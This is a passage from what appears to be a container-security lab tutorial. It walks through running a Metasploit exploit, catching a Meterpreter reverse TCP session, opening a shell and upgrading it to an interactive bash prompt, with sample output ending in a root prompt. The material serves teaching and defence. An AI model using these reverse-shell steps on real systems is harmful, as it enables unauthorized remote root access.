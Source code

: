 [tabs]
====
Terminal 2::
+
--
. With all the setup we did previously, you can now simply run this command in this terminal to exploit the vulnerability on the container
+
[.console-input]
[source,bash,subs="+macros,+attributes"]
----
exploit
----
+
. After a few moments you should see the following output, ending with the a `meterpreter` console
+
[.console-output]
[source,bash,subs="+macros,+attributes"]
----

[-] Handler failed to bind to 13.239.27.229:4444:-  -
[*] Started reverse TCP handler on 0.0.0.0:4444 
[*] Command Stager progress - 100.46% done (1097/1092 bytes)
[*] Sending stage (984904 bytes) to 13.239.27.229
[*] Meterpreter session 1 opened (172.16.249.211:4444 -> 13.239.27.229:42046) at 2021-05-30 07:31:45 +0000

meterpreter > 
----
+
. Next type in the following to get a shell and output something like the following
+
[.console-input]
[source,bash,subs="+macros,+attributes"]
----
shell
----
+
[.console-output]
[source,bash,subs="+macros,+attributes"]
----
Process 79 created.
Channel 1 created.
----
+
. One thing you'll notice is a lack of a prompt after the previous output, and even though we don't see it, we're able to enter bash shell command now.  Just to make our hack more comfortable, paste this command into Terminal 2
+
[.console-input]
[source,bash,subs="+macros,+attributes"]
----
/usr/bin/script -qc /bin/bash /dev/null
----

You should now get a bash style prompt that will look something like this: 

[.console-output]
[source,bash,subs="+macros,+attributes"]
----
[root@b0cfa8015a4c cgi-bin]# 
----
--
====